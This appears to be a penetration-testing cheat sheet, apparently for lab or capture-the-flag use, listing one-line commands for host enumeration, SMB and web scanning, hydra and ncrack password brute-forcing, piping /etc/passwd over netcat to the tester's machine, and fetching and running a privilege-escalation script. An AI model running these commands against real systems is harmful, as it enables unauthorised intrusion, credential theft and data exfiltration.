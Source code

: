 ## Quick and Dirty Commands

For the following examples assume:

**Remote IP:** `10.37.129.11`

**Local IP:** `10.37.129.4`

##### Find a file with the a specified string
`cat /etc/* | grep FLAG2`

##### Grep only usernames from /etc/passwd
`cat /etc/passwd | grep -E '/home/|/root'`

##### Regex in Grep
`ls -al | grep '[a-z][0-9].jpeg'`

##### HEX to ASCII convert
`echo "46 4c 41 47" | xxd -r -ps`

##### Base64 Decode
`echo dmlldyBzb3VyY2UgO0QK | base64 -D`

##### Check webserver for things
`nikto -h 10.37.129.11`

##### Enumerate directories
`dirb http://10.37.129.11`

#### Enumerate Linux (Gets OS, host, shares, potential usernames)
`enum4linux -a 10.37.129.11`

##### FTP on custom port
`ftp -p 10.37.129.11 4200`

#### SSH on custom port
`ssh user@10.37.129.11 -p 22222`

##### Search for a package on the system
`rpm -qa | grep ftp`

##### Copy file over netcat | nc
Local Listener: `nc -l -p 2222 > passwd`

Remote Listener: `cat /etc/passwd | netcat 10.37.129.4 2222`

#### Copy file over SCP
```bash
$ scp -r -P 22 username@10.37.129.4:/home/whatever ~/<destination>
$ scp safe root@10.37.129.11:~/<destination>
```

##### Hydra quick user/password enumeration
`hydra -L /usr/share/wordlists/custom/usernamelist.txt -P /usr/share/wordlists/custom/passwordlist.txt -u -s 22 10.37.129.11 ssh -t 4`

##### NCRACK password enumeration and SSH crack
`ncrack -v –user <username> -P <password_list> ssh://10.37.129.11:22222`

##### Pull down linuxprivchecker.py and run
```bash
$ wget https://raw.githubusercontent.com/t04glovern/icu/master/tools/linuxprivchecker.py
$ python linuxprivchecker.py > linux_priv_check.txt
```

##### smbclient scan
`smbclient -L 10.37.129.11`

##### smbclient connect
`smbclient '\\10.37.129.11\<sharename>'`

##### SMB share connect via web browser
`smb://10.37.129.11/<sharename>/`
